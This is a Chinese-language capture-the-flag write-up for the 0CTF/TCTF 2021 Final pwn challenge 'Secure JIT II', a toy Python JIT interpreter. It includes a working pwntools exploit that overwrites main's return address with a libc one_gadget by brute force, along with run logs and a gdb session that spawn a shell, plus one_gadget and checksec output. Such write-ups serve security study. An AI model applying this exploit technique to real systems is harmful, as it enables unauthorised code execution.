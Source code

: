 ```yaml
---
title:  0CTF / TCTF 2021 Final - Secure JIT II 
categories:
- CTF/Pwn
tags: 
---
```


> 和xkt共同完成，题目是一个用python3运行的简易python解释器，可以任意地址写，读内存的功能被patch了。比赛时因为没发现ubuntu18.04默认的python3是没开PIE且GOT表可写的，所以采取了野蛮的解法：任意地址写，可以泄露栈地址，所以直接写栈上的main函数返回地址为one_gadget，复用main函数返回到的libc_start_main地址的高字节，写低三字节，需要爆破1.5字节，概率为1/4096。

附件：[securejit2.tgz](https://xuanxuanblingbling.github.io/assets/attachment/securejit2.tgz)

- [https://benhoyt.com/writings/pyast64/](https://benhoyt.com/writings/pyast64/)
- [https://github.com/benhoyt/pyast64](https://github.com/benhoyt/pyast64)

本地exp如下，仅限ubuntu18.04，不太稳定，可能需要多次运行：

```python
from pwn import *

payload = '''
def f():
    b = array(16)
    a = b + 2219
    a[0] = 0xaec41c * 0x100000 * 0x100000
'''

f = open("payload",'w')
f.write(payload)
f.close()

while(1):
    try:
        io = process(["python3","pyast64.py","payload"])
        io.sendline("ls");io.recv()
        io.sendline("ls");io.recv()
        io.sendline("ls");io.recv()
        break
    except:
        io.close()

io.interactive()
```

1/4096，比较看人品，比赛时候远程5分钟就出了：

```python
➜  python exp.py
[+] Starting local process '/usr/bin/python3': pid 61825
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61825)
[+] Starting local process '/usr/bin/python3': pid 61835
[*] Stopped process '/usr/bin/python3' (pid 61835)
[+] Starting local process '/usr/bin/python3': pid 61855
[*] Stopped process '/usr/bin/python3' (pid 61855)
[+] Starting local process '/usr/bin/python3': pid 61863
[*] Process '/usr/bin/python3' stopped with exit code -6 (SIGABRT) (pid 61863)
[+] Starting local process '/usr/bin/python3': pid 61871
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61871)
[+] Starting local process '/usr/bin/python3': pid 61879
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61879)
[+] Starting local process '/usr/bin/python3': pid 61887
[*] Stopped process '/usr/bin/python3' (pid 61887)
[+] Starting local process '/usr/bin/python3': pid 61895
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61895)
[+] Starting local process '/usr/bin/python3': pid 61903
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61903)
[+] Starting local process '/usr/bin/python3': pid 61911
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61911)
[+] Starting local process '/usr/bin/python3': pid 61919
[*] Stopped process '/usr/bin/python3' (pid 61919)
[+] Starting local process '/usr/bin/python3': pid 61927
[*] Switching to interactive mode
core  entry  exp.py  flag  libc-2.27.so  payload  payloadback  pyast64.py  test
$  
```

gdb环境稳定getshell：

```python
➜  cat payload
def f():
    b = array(16)
    a = b + 2219
    a[0] = 0xaec41c * 0x100000 * 0x100000

➜  gdb -q --args python3 pyast64.py payload 
GEF for linux ready, type `gef' to start, `gef config' to configure
77 commands loaded for GDB 8.1.1 using Python engine 3.6
[*] 3 commands could not be loaded, run `gef missing` to know why.
Reading symbols from python3...(no debugging symbols found)...done.
gef➤  r
Starting program: /usr/bin/python3 pyast64.py payload
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
jit return: 0
process 46700 is executing new program: /bin/dash
$ ls
core  entry  exp.py  flag  libc-2.27.so  payload  pyast64.py  
$ 
```



只有0x10a41c这个gadget满足要求：

```python
➜  one_gadget libc-2.27.so 
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

python3没开PIE：

```python
➜  cat /proc/version
Linux version 4.15.0-158-generic (buildd@lgw01-amd64-051) 
(gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) 
#166-Ubuntu SMP Fri Sep 17 19:37:52 UTC 2021

➜  checksec `which python3`
[*] '/usr/bin/python3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```